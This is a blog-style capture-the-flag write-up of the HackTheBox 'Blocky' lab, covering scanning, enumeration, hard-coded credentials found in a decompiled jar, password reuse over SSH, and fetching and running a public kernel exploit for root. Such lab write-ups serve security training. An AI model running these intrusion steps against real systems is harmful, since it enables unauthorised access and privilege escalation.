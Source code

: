 ```yaml
---
layout: post
title: "HackTheBox - Blocky - CTF Notes"
tagline: "Owning Blocky on HackTheBox"
description: "The following writeup shows the process I used to capture the user and root flags on Blocky 10.10.10.37 @ HackTheBox.eu"
date:   2017-12-13
comments: true
image:
  feature: blog/2/feature.jpg
  hero: blog/2/header.jpg
tags: [ctf, hackthebox, labs, notes]
---
```


## Introduction
The following writeup shows the process I used to capture the user and root flags on Blocky 10.10.10.37 @ [HackTheBox.eu](https://hackthebox.eu)

This post essentially contains the field notes I took as I was working my way through the box. With that in mind, I don't really go into detail about the commands I use and this isn't really a proper writeup. I might come back and touch it up later or I might just leave this as is. ¯\\\_(ツ)_/¯

## Port Scanning
First off let's check what ports are open.

```shell_session
nmap 10.10.10.37
Starting Nmap 7.60 ( https://nmap.org )
Nmap scan report for 10.10.10.37
Host is up (0.18s latency).
Not shown: 996 filtered ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
8192/tcp closed sophos
Nmap done: 1 IP address (1 host up) scanned in 18.88 seconds
```
Cool, we've got ftp (21), ssh (22) and http (80)

## Identification
Let's take a quick look at the headers on the web server

```shell_session
curl -I 10.10.10.37
```

```http
HTTP/1.1 200 OK
Server: Apache/2.4.18 (Ubuntu)
Link: <http://10.10.10.37/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```
It’s wordpress!

View-source:http://10.10.10.37 reveals we are working with Wordpress version 4.8.0 and there are no obvious plugins. Might come back with WPScan later.

/authors shows one user, “Notch”

Version 4.8.0 is affected by [a handful of vulnerabilities](https://wpvulndb.com/wordpresses/48) which we will come back too if needed.

## Enumeration
Let's do some directory enumeration...

```shell_session
uniscan -q -u http://10.10.10.37/
```

```
####################################
# Uniscan project #
# http://uniscan.sourceforge.net/ #
####################################
V. 6.3
======================================================================
=============================
| Domain: http://10.10.10.37/
| Server: Apache/2.4.18 (Ubuntu)
| IP: 10.10.10.37
======================================================================
=============================
|
| Directory check:
| [+] CODE: 200 URL: http://10.10.10.37/phpmyadmin/
| [+] CODE: 200 URL: http://10.10.10.37/plugins/
| [+] CODE: 200 URL: http://10.10.10.37/wiki/
| [+] CODE: 200 URL: http://10.10.10.37/wp-admin/
======================================================================
=============================
======================================================================
=============================
HTML report saved in: report/10.10.10.37.html
```

## Further Identification
View-source:http://10.10.10.37/phpmyadmin reveals version string [4.5.4.1deb2ubuntu2](https://www.phpmyadmin.net/files/4.5.4.1/) which was released on 2016-01-29.

[CVE-2016-5734](https://www.exploit-db.com/exploits/40185/) Affects this version.

Gonna keep digging…

http://10.10.10.37/wiki
(development page, will enumerate later)

http://10.10.10.37/plugins/
Cute File Browser

http://10.10.10.37/plugins/files/
Two java files found

http://10.10.10.37/plugins/files/BlockyCore.jar

http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar

```shell_session
jar -xf BlockyCore.jar
cd com/myfirstplugin/
Jad BlockyCore.class
```
Found:
```java
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

## Password Reuse

Check credentials on PHPMYAdmin.... We’re in!

Check password against other users seen in db

One user in wp_users

```sql
Notch $P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/ notch notch@blockcraftfake.com
```

Testing sql pass on wordpress user failed, no pw reuse there.

Modifying user_pass or creating new wp user gives back-end access to WP, from there we could upload a shell as www-data.
Could also have used CVE-2016-5734 on PHPMyAdmin to get a shell.

Testing password over ssh

```shell_session
ssh root@10.10.10.37
```

Failed no pw reuse

```shell_session
ssh notch@10.10.10.37
```

total success

```shell_session
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
7 packages can be updated.
7 updates are security updates.
Last login: Sun Oct 29 11:09:42 2017 from 10.10.14.13
```

## Privilege Escalation
At this point we have the user flag, now let's get that root flag.

```shell_session
notch@Blocky:~$ uname -r
4.4.0-62-generic
```


Kernel 4.4.0-62-generic is impacted by [CVE-2017-6074](https://www.cvedetails.com/cve/CVE-2017-6074/)

On local machine
```shell_session
wget https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-6074/poc.c
```

```shell_session
gcc poc.c -o pwn
```

Transfer file over to target

`./pwn` as `notch` or `www-data` will cause root

Edit: Upon reading [another writeup](https://gist.github.com/berzerk0/1a6270d3cacf30c3b5cff82c7f53bf4c) I realized I overlooked something. It seems exploiting CVE-2017-6074 was unnecessary as the user `notch` was actually an admin. Exploiting the above CVE would still have been useful if we had gotten a shell as `www-data` or another under privileged user.

## Summary

Blocky was a relatively easy system to pwn. Leaving credentials in the java file was a cool touch and is actually something I see often in my work engagements. This box featured a combination of plain-text credential storage, password reuse, and old software.

If you found this helpful, feel free to [give me a +1](https://www.hackthebox.eu/home/users/profile/14010) on HackTheBox.
